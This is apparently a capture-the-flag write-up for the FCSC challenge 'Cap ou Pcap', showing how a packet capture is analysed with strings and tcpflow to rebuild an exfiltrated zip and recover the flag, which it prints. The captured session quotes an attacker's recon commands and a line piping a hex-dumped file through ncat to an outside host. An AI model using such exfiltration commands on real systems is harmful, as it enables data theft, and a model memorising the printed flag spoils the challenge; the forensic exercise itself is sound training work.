

# Cap ou Pcap




```bash
$ strings cap.pcap | grep -i flag
flag.zip
Ffile Documents/flag.zip
Documents/flag.zip: Zip archive data, at least v2.0 to extract
xxd -p Documents/flag.zip | tr -d '\n' | ncat 172.20.20.133 20200
$ tcpflow -r cap.pcap 
reportfilename: ./report.xml
root@kali:/mnt/hgfs/Shared/fcsc/intro/Cap ou Pcap# ls
172.020.020.132.35062-172.020.020.133.20200  172.020.020.132.51612-172.020.020.133.02020  172.020.020.133.02020-172.020.020.132.51612  cap.pcap  images  memo  output  report.xml
$ file *
172.020.020.132.35062-172.020.020.133.20200: ASCII text, with very long lines, with no line terminators
172.020.020.132.51612-172.020.020.133.02020: ASCII text
172.020.020.133.02020-172.020.020.132.51612: ASCII text
cap.pcap:                                    pcap capture file, microsecond ts (little-endian) - version 2.4 (Ethernet, capture length 262144)
images:                                      directory
report.xml:                                  XML 1.0 document text
$ cat 172.020.020.132.35062-172.020.020.133.20200
504b0304140000000800a231825065235c39420000004700000008001c00666c61672e7478745554090003bfc8855ebfc8855e75780b000104e803000004e80300000dc9c11180300804c0bfd5840408bc33630356e00568c2b177ddef9eeb5a8fe6ee06ce8e5684f0845997192aad44ecaedc7f8e1acc4e3ec1a8eda164d48c28c77b7c504b01021e03140000000800a231825065235c394200000047000000080018000000000001000000a48100000000666c61672e7478745554050003bfc8855e75780b000104e803000004e8030000504b050600000000010001004e000000840000000000
$ cat 172.020.020.132.51612-172.020.020.133.02020
uid=1001(fcsc) gid=1001(fcsc) groups=1001(fcsc)
/home/fcsc
 07:10:25 up 24 min,  1 user,  load average: 0.00, 0.00, 0.00
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
fcsc     tty7     :0               06:46   24:47   3.13s  0.00s /bin/sh /etc/xdg/xfce4/xinitrc -- /etc/X11/xinit/xserverrc
Desktop
Documents
Downloads
Music
Pictures
Public
Templates
Videos
flag.zip
Documents/flag.zip: Zip archive data, at least v2.0 to extract
$ cat 172.020.020.133.02020-172.020.020.132.51612
id
pwd
w
ls
ls Documents
file Documents/flag.zip
xxd -p Documents/flag.zip | tr -d '\n' | ncat 172.20.20.133 20200
exit
$ cat 172.020.020.132.35062-172.020.020.133.20200 | xxd -r -p > outfile
$ file outfile 
outfile: Zip archive data, at least v2.0 to extract
$ mv outfile outfile.zip
$ unzip outfile.zip 
Archive:  outfile.zip
  inflating: flag.txt
$ cat flag.txt 
FCSC{6ec28b4e2b0f1bd9eb88257d650f558afec4e23f3449197b4bfc9d61810811e3}
```

flag: `FCSC{6ec28b4e2b0f1bd9eb88257d650f558afec4e23f3449197b4bfc9d61810811e3}`

## Liens utiles

- https://www.aperikube.fr/docs/tjctf_2018/ssleepy/
- https://github.com/JohnHammond/ctf-katana#networking
- https://youtu.be/qZDIRzaJ-gk